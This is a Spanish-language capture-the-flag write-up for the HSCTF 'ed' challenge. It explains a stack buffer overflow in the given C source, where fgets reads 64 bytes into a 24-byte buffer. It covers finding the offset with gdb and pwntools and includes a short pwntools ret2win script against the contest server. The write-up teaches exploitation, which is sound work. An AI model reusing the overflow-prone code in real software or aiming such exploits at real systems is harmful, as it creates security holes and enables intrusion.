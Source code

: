 # Enunciado
![Imagen01](01.png)

# Resolución

Nos proporcionan el siguiente código (chall.c) y su binario correspondiente (ed):
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24]; 
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
~~~
En el mismo tenemos la fúnción int flag() que imprime la flag pero que nunca es llamada en el código, por lo que podemos tratar de obtener la dirección en la que se encuentra dicha función y modificar de alguna forma el flujo de programa para que se ejecute.

Primero, ejecutamos gdb-gef con el binario 'ed':

![](05.png)

y buscamos la dirección de memoria de la función *flag()*. Lo hacemos con el comando ´print &flag´

![](07.png)

Obtenemos la dirección **0x4011d2**

Ahora debemos de comprobar si el código ejecutable ha sido compilado sin alguna de las protecciones que impiden el desbordamiento de buffer. Lo hacemos con checksec:

![](02.png)

Vemos que no tiene la protección *Stack Canary* ni *PIE* por lo que en principio parece vulnerable a desbordamientos de pila.

> Un **stack canary** es un valor de seguridad colocado en la pila justo antes de la dirección de retorno en una función. Este valor se elige de forma aleatoria al inicio de la ejecución del programa y se verifica al finalizar la función antes de que se produzca el retorno. Si el valor del canary se ha modificado, se asume que ha ocurrido un desbordamiento de búfer y el programa puede tomar medidas para prevenir un posible ataque como terminar abruptamente la ejecución, generar una excepción o informar del intento de ataque.

> Las **protecciones PIE** (Position Independent Executable) son técnicas de seguridad que hacen que el código y los datos de un programa se carguen en posiciones de memoria aleatorias cada vez que se ejecuta. Esto dificulta a los atacantes explotar vulnerabilidades de memoria, ya que no conocen de antemano la ubicación exacta de las estructuras de datos y funciones en el programa. 

Para conseguir el desbordamiento debemos de encontrar alguna forma de introducción de datos que permita que el programa se 'desborde'. Un desbordamiento generalmente se produce cuando un programa escribe más datos en un búfer de los que puede contener. 

En el código suministrado tenemos dos líneas que posibilitan un buffer overflow debido a la discrepancia en los tamaños de los búferes y la forma en que se maneja la entrada del usuario.

1. `char input[24];`: Aquí, se declara un array de caracteres `input` con un tamaño fijo de 24 bytes.

2. `fgets(input, 64, stdin);`: En esta línea, se utiliza la función `fgets` para leer hasta 64 caracteres de la entrada estándar (`stdin`) y almacenarlos en el búfer `input`. Sin embargo, como se definió que `input` solo tiene espacio para 24 bytes, si el usuario ingresa más de 23 caracteres (más el carácter nulo de terminación), esto resultará en un buffer overflow. Esto es porque `fgets` tratará de escribir más datos en `input` de los que puede contener de manera segura.


Ejecutándolo en local vemos que efectivamente al introducir una cadena larga y luego pulsar 'Q', obtenemos el desbordamiento de buffer que estamos buscando:

![](03.png)

Vamos a utilizar el comando 'cyclic' de 'pwntools' para generar una cadena con un patrón conocido, luego la editaremos para añadir una 'Q' en la siguiente línea, es decir, replicamos en un fichero de texto la entrada con la que hemos conseguido el buffer overflow pero con un patrón de texto conocido que después podemos ubicar en memoria al ejecutarlo con una herramienta como 'gdb'

![](04.png)

Para ejecutar el programa desde dentro de gdb con el fichero de texto generado, debemos de utilizar el comando ´r< cadena.txt´, obteniendo la siguiente salida:

![](06.png)

En este caso nos interesa poder sobreescribir el stack pointer (registro **rsp**) que apunta a la cima de pila para ubicar en él la dirección de la función flag().

Para ello podemos usar la herramienta cyclic de nuevo para determinar exactamente en qué parte de la cadena de caracteres se encuentra "kaaalaaamaaanaaaoaaapaa" que es la parte que sobrescribió el stack pointer. Sabiendo la posición de dicha cadena en la cadena original tendremos el offset en el que necesitamos escribir la dirección 0x4011d2, que es la de la función flag().

![](08.png)

Obtenemos un offset de 40.

Con todos estos datos, generamos un pequeño programa en python utilizando la librería *pwntools*

~~~
from pwn import *

conexion = remote("ed.hsctf.com", 1337)
offset = 40
direccion_funcion_flag = p64(0x4011d2)
conexion.sendline(b'a'*offset + direccion_funcion_flag)
conexion.recv()
conexion.sendline(b'Q')
print(conexion.recv())
~~~

Lo ejecutamos y conseguimos la bandera:

![](10.png)


 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://ctf.hsctf.com/challs). *Disclaimer:Probablemente offline después de finalizar la competición* 
 
